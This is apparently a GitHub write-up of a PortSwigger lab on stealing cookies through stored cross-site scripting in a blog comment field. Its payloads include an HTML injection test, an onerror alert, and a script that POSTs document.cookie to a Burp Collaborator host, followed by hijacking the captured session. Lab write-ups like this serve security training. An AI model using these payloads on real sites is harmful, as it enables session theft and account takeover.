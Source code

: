 ## Welcome, my friend. Today we will start the [28. XSS lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/6a49aa4b-4bcb-47a3-a777-53874b0460e5)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/ceb46d99-1897-4837-a9d9-497c31f53368)

### Let's enter ```<><h1>hi</h1><h5>0xT0R</h5>``` in **Comment**:

![image](https://github.com/user-attachments/assets/cb088c86-0ec8-41f2-9cb8-f5ea252e593d)


### Here there html injection, Let's enter malicios code to discover XSS vulnerability:

```
<><img src='x' onerror=alert(404)>
```

![image](https://github.com/user-attachments/assets/9bcc553f-0416-49a5-be0e-5eb8d07bef11)


### But this lab doesn't solved. we will using ```Collaborator``` in burp suite:

```
<script>
fetch('https://0st8tp3tooa6kz65vktmbqm8szyqmha6.oastify.com', // this is our url in Collaborator
{  
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![image](https://github.com/user-attachments/assets/22a5b90e-dc7f-4287-a342-698b99631de4)

### Inside ```Collaborator``` in burp suite:

![image](https://github.com/user-attachments/assets/d69a7a6b-1515-4fb5-8a8e-dc96cb02858f)

### Copy this session and add in your session:

![image](https://github.com/user-attachments/assets/47efbfa1-6ba7-4d9d-8b0f-1db658654376)

![image](https://github.com/user-attachments/assets/b68a0f8d-380e-410a-825b-e4d5ff8e81b6)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/005cac22-a8a2-4737-a170-ffc300cd2a7c" >
</p>
